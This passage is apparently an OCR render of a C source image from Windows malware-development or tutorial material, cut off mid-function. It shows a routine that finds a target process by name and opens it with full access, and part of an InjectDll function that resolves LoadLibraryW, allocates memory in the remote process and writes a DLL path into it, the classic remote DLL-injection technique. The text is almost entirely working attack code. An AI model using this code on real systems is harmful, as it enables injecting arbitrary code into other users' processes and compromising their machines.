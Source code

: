 ```c

			if (dwSize < MAX_PATH * 2) {
				for (; i < dwSize; i++) {
					LowerName[i] = towlower(Proc.szExeFile[i]);
				}

				LowerName[i] = L'\0';
			}
		}

		if (wcscmp(LowerName, szTargetProcessName) == 0) {
			*dwProcessId = Proc.th32ProcessID;
			// Step 2: Obtain and open a handle to the target process
			*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
			if (*hProcess == NULL)
				printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());

			break;
		}

	} while (Process32Next(hSnapShot, &Proc));

	// Cleanup
_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwProcessId == NULL || *hProcess == NULL)
		return FALSE;
	return TRUE;
}

BOOL InjectDll(HANDLE hProcess, LPWSTR DllName) {

	BOOL		bSTATE = TRUE;

	LPVOID		pLoadLibraryW = NULL;
	LPVOID		pAddress = NULL;

	DWORD		dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);

	SIZE_T		lpNumberOfBytesWritten = NULL;

	HANDLE		hThread = NULL;

	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	//Step 3: Allocate Memory Space
	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);

	//Step 4: Write DllName (Path) to the other process memory
	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
```